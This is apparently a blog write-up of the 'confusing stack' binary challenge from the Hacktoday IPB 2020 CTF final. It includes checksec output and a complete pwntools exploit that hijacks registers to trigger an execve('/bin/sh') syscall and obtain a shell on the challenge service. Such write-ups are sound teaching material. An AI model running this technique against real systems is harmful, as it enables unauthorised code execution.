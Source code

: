 ```yaml
---           
layout: post
title:  "Hacktoday IPB 2020 CTF final "
date:   2020-09-06 1
categories: ctf
description: Writeup Hacktoday IPB 2020 CTF final 
tags: ctf-writeup              
---
```


after a week, my team (glut0r) was qualified to compete in the final

<img src="/images/hacktoday2020-final/annouce.jpeg" />

## confusing stack

#### Solve:

Elf Information:

    ./confusing-stack: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
    statically linked, stripped

Elf Protection:

    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

i assume this binary is written in assembly, 
so i open it in binary ninja

<img src="/images/hacktoday2020-final/asm.png" />

we can control some register including `%rbx`, `%rcx`, `%rdx` from  our first 
input.

<img src="/images/hacktoday2020-final/controll-reg.png" />

we can also control `%rax` from length of our second input. after doing some blackbox, 
i figure out that we can set `%rax` to 0xb to call `execve`(x86 syscall), and this is my exploit:

{% highlight python  %}
#!/usr/bin/env python2
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/hacktoday2020-final/pwen/confussing-stack/confusing-stack/confusing-stack")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    # attach(r)
    int_0x80 = 0x4000f3
    segment = 0x600000
    p = p64(0x600000)
    p += p64(0) * 3
    p += p64(0x600000)
    p += p32(int_0x80)
    r.sendafter(":",p)
    r.sendafter(":","/bin/sh\x00".ljust(0xb,"\x00"))
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("127.0.0.1", 1337)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

and we got a shell

<img src="/images/hacktoday2020-final/shell.png" />
